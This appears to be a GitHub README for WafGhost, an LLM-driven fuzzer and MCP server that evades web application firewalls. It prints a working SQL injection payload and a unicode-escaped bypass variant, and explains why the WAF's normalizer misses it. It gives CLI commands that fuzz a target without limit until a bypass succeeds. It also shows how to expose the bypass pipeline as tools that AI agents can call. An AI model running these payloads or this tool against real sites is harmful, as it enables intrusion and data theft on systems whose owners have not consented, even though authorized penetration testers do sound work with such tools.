

# WafGhost
> **Stateful LLM-Driven WAF Evasion Fuzzer**
> High-performance black-box testing, token mapping, and generative syntax adaptation.

<p align="center">
  
  
  
  
</p>

---

WafGhost is a professional, modular Python library, CLI fuzzer, and Model Context Protocol (MCP) server designed for black-box WAF testing, differential token probing, and generative syntax adaptation.

It maps target firewall filters to identify blocked vs allowed symbols and keywords, then chains rule-based heuristic mutators and **real-time stateful LLM reasoning loops** to dynamically bypass modern Web Application Firewalls.

---

### Console Preview

```text
$ wafghost --url "http://target.com/search?q=" --payload "1' UNION SELECT 1,2,3--" --use-llm

 WafGhost: LLM-Driven Evasion Fuzzer v0.1.0
 ==============================================================
 Target URL:   http://target.com/search?q=
 Base Payload: "1' UNION SELECT 1,2,3--"
 Mode:         Stateful AI Reasoning Loop (Active)
 ==============================================================

 [*] Running differential token probing...
     [+] Blocked:  ['\'', 'UNION', 'SELECT', '--', '/*']
     [+] Allowed:  ['\U0027', '\U0020', ',', 'CONCAT']

 [*] Starting stateful chat loop...

   [Attempt 1] 
   Strategy: Testing uppercase unicode escape to crash normalizer
   Payload:  1\U0027\U0020unIOn\u0020selEct\u00201\u002c2\u002C3\u002d\u002D
   Response: HTTP 200 OK (542 bytes)

 >>> SUCCESS: Bypass payload confirmed after 1 attempt!
 >>> Winning Payload: 1\U0027\U0020unIOn\u0020selEct\u00201\u002c2\u002C3\u002d\u002D
```

---

### Key Capabilities

| Feature | Description |
| :--- | :--- |
| **Token Probing** | Conducts differential byte-by-byte probing to compile a custom map of blocked and allowed characters. |
| **Heuristic Pipeline** | Applies structured obfuscation strategies (SQL comments, encodings, casing, alternate syntax). |
| **Stateful AI Reasoning** | Initiates multi-turn chat sessions with LLMs to dynamically adapt based on real-time WAF responses. |
| **Evolutionary Fuzzer** | Implements fallback evolutionary random mutations when LLM tokens are exhausted. |
| **MCP Integration** | Operates as a FastMCP server to allow security agents to call it as a native tool. |

---

## Real-Time Stateful AI Reasoning

Unlike traditional scanners that try static lists or perform simple blind fuzzing, WafGhost implements **multi-turn, stateful AI chat sessions** (Gemini, Claude, GPT-4):

1. **Failure Analysis**: The AI analyzes the exact response code, body lengths, and raw HTTP body returned from the WAF for the last payload.
2. **Context-Aware Thinking**: It references the token blockmap (exactly which characters like `'`, `*`, or words like `SELECT` are filtered).
3. **Adaptive Mutation**: The AI proposes new, highly specific evasion strategies (e.g., unicode escape anomalies, homoglyphs, or nested comment mutations) and observes the WAF's response on the next turn to adjust its strategy dynamically.

> [!TIP]
> **Permissive Normalization Bypass Example:**
> Against a strict PL4 firewall that rejects standard comments, quotes, and space characters, the AI generated:
> `1\U0027\U0020unIOn\u0020selEct\u00201\u002c2\u002C3\u002d\u002D`
> This causes the WAF's normalizer to fail closed/error out on the invalid 32-bit unicode syntax `\U0027`, skipping rules, while the backend SQL parser decodes it successfully and executes the injection.

---

## Evasion Architecture & Workflow



---

## Installation & Setup

### **Prerequisites**
- Python 3.10+
- A Gemini, Claude, or OpenAI API key (optional, for stateful AI loops)

### **Installation**
Clone the repository and install the package locally:
```bash
git clone https://github.com/heyash13/wafghost.git
cd wafghost
python3 -m venv venv
source venv/bin/activate
pip install -e . --index-url https://pypi.org/simple
```

---

## Step-by-Step Usage

#### **Standard Run (Heuristics & Fallback Evolutionary Fuzzing)**
To run the CLI and fuzz the target parameter indefinitely until a bypass is found:
```bash
wafghost --url "http://example.com/search?q=" --payload "1' UNION SELECT 1,2,3--" --param "q" --max-llm-iterations -1
```

#### **LLM-Driven Run (Stateful AI Evasion Loop)**
Engage Gemini (or OpenAI/Claude) to dynamically analyze block responses in real-time and propose mutations:
```bash
wafghost --url "http://example.com/search?q=" --payload "1' UNION SELECT 1,2,3--" --param "q" --use-llm --llm-provider gemini --llm-key "YOUR_GEMINI_API_KEY"
```

---

## Configuration Options

| Option | Type | Default | Description |
| :--- | :--- | :--- | :--- |
| `--url` | String | *Required* | Target base URL (can contain `{payload}` placeholder) |
| `--payload` | String | *Required* | Base exploit payload to bypass WAF for |
| `--param` | String | `None` | Target parameter name in URL or POST body |
| `--method` | Enum | `GET` | Request method (`GET` or `POST`) |
| `--vuln-type` | Enum | `auto` | Vulnerability type (`auto`, `sql`, `ssrf`, `xss`, `generic`) |
| `--use-llm` | Flag | `False` | Enable stateful, real-time LLM reasoning loop |
| `--llm-provider` | Enum | `gemini` | LLM provider to use (`gemini`, `openai`, `claude`) |
| `--max-llm-iterations` | Integer | `4` | Max LLM iterations. Set to `-1` for unlimited testing |
| `--proxy` | String | `None` | Proxy URL (e.g. `http://127.0.0.1:8080` for Burp Suite) |
| `--verbose` | Flag | `False` | Print verbose logging output |
| `--output` | String | `None` | Save detailed JSON results log to a filepath |

---

## Integration as an MCP Server
You can register `WafGhost` as a Model Context Protocol (MCP) server so that agentic developer platforms (like Jetski, Claude Desktop, cursor) can call it directly as a tool during security analysis.

Add the following config to your MCP server host configuration file (e.g. `mcp_config.json`):
```json
{
  "mcpServers": {
    "wafghost": {
      "command": "/absolute/path/to/wafghost/venv/bin/python",
      "args": [
        "-m",
        "wafghost.mcp_server"
      ]
    }
  }
}
```

### **Exposed MCP Tools:**
- **`probe_waf`**: Performs differential probing to discover WAF blocked character map.
- **`generate_heuristic_mutations`**: Generates rule-based obfuscated payloads.
- **`bypass_waf`**: Runs the entire multi-phase bypass pipeline.

---

## Disclaimer
*This tool is created for educational purposes and authorized penetration testing only. Do not use it against targets without written, prior consent.*
